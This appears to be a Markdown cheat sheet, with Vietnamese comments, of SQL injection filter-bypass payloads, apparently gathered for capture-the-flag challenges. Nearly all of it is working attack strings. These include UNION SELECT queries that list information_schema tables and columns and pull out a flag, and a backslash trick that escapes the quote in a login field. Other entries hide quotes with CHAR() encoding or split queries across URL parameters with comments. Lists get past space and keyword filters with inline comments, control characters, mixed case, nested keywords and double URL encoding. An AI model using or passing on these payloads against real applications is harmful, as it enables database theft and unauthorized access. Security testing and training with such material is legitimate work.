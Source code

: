 # BYPASS 

## Bypass '
```sql
username: \
password: UNION SELECT table_name FROM information_schema.tables WHERE table_name like "%flag%"-- -
UNION SELECT column_name FROM information_schema.columns WHERE table_name like "flag_304ad593"-- -
UNION SELECT flag_3e53dc FROM flag_304ad593-- -

=> Dạng : "select username from users where username='\'and password=' UNION SELECT ....'  ";
```
Đoạn `\'and password=` sẽ đc coi là tên username vì \' đã vô hiệu hóa dấu '

```url
?amount=-1/*&name=*/ or 1=1-- -

amount=-1/*&name=*/%20UNION%20select%201,CONCAT(COLUMN_NAME),TABLE_NAME%20from%20INFORMATION_SCHEMA.COLUMNS%20where%20table_name=CHAR(102,108,97,103,116,97,98,108,101,97,104,105,104,105,104,111,104,111)--%20-
```
=> Dạng dùng comment lọc tham số đầu vào kết hợp 2 query 
=> Dùng char() => mã ascii bypass lọc `'` hoặc có thể dùng like mã hex hoặc binary
![image](https://user-images.githubusercontent.com/57553555/161938429-f7f8cf05-8805-4bd5-81ca-335c6f7d75bf.png)


## Bypass space 

```sql
/**/
-1/**/or/**/1=1-- -  (-1 or 1=1-- -)
%0d (CR)
%00 (null byte)
%0b ()
%0c

```

## Bypass select 
```sql
Select 
SeLeCt
SELECT 
SELSELECTECT
SEL/**/ECT
%00SELECT   
%53%45%4c%45%43%54                   #encode url 1l
%2553%2545%254c%2545%2543%2554       #encode url 2l

```

## Bypass union
```sql
uNion
UniOn
UNUNIONION
UNUNIONION%0dSELSELECTECT%0d

```

## Replaced Keywords
```sql
UNunionION SEselectLECT
uni%0bon se%0blect    # bypass keywords in Sql 

```


